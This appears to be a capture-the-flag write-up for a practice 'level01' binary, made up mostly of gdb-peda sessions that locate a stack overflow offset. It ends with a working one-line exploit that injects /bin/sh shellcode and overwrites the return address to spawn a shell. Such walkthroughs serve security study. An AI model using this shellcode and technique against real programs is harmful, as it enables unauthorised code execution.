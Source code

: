 # Level 01
<pre>
$> gdb ./level01 
gdb-peda$ r < <(python -c "print('dat_wil' + 'A' * 100)"; python -c "print('admin' + 'B' * 500)")
Starting program: /home/alarm/42/Override/level01/Ressources/level01 < <(python -c "print('dat_wil' + 'A' * 100)"; python -c "print('admin' + 'B' * 500)")
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x1 
EBX: 0x42424242 ('BBBB')
ECX: 0xffffffff 
EDX: 0xffffffff 
ESI: 0xf7f9d000 --> 0x1e4d6c 
EDI: 0x42424242 ('BBBB')
EBP: 0x42424242 ('BBBB')
ESP: 0xffffd5b0 ('B' <repeats 15 times>)
EIP: 0x42424242 ('BBBB')
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x42424242
[------------------------------------stack-------------------------------------]
0000| 0xffffd5b0 ('B' <repeats 15 times>)
0004| 0xffffd5b4 ('B' <repeats 11 times>)
0008| 0xffffd5b8 ("BBBBBBB")
0012| 0xffffd5bc --> 0x424242 ('BBB')
0016| 0xffffd5c0 --> 0xffffd5f4 --> 0x23f25da8 
0020| 0xffffd5c4 --> 0xf7ffdb40 --> 0xf7ffdae0 --> 0xf7fca3e0 --> 0xf7ffd980 --> 0x0 
0024| 0xffffd5c8 --> 0xf7fca410 --> 0x80482a3 ("GLIBC_2.0")
0028| 0xffffd5cc --> 0xf7f9d000 --> 0x1e4d6c 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x42424242 in ?? ()
gdb-peda$ 
</pre>
<pre>
gdb-peda$ pattern create 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
gdb-peda$ r < <(python -c "print('dat_wil' + 'A' * 100)"; python -c "print('admin' + 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL')")
Starting program: /home/alarm/42/Override/level01/Ressources/level01 < <(python -c "print('dat_wil' + 'A' * 100)"; python -c "print('admin' + 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL')")
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x1 
EBX: 0x65414149 ('IAAe')
ECX: 0xffffffff 
EDX: 0xffffffff 
ESI: 0xf7f9d000 --> 0x1e4d6c 
EDI: 0x41344141 ('AA4A')
EBP: 0x41414a41 ('AJAA')
ESP: 0xffffd5a0 ("AAKAAgAA6AAL\n")
EIP: 0x35414166 ('fAA5')
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x35414166
[------------------------------------stack-------------------------------------]
0000| 0xffffd5a0 ("AAKAAgAA6AAL\n")
0004| 0xffffd5a4 ("AgAA6AAL\n")
0008| 0xffffd5a8 ("6AAL\n")
0012| 0xffffd5ac --> 0xffff000a --> 0x0 
0016| 0xffffd5b0 --> 0xffffd5e4 ("S??AC\201O\004")
0020| 0xffffd5b4 --> 0xf7ffdb40 --> 0xf7ffdae0 --> 0xf7fca3e0 --> 0xf7ffd980 --> 0x0 
0024| 0xffffd5b8 --> 0xf7fca410 --> 0x80482a3 ("GLIBC_2.0")
0028| 0xffffd5bc --> 0xf7f9d000 --> 0x1e4d6c 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x35414166 in ?? ()
gdb-peda$ pattern offset fAA5
fAA5 found at offset: 75
</pre>

```
$> (python -c "print('dat_wil0' + '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80' + 'A' * 100)"; python -c "print('admin' + 'B' * 75 + '\x48\xa0\x04\x08')"; cat) | ./level01 
```

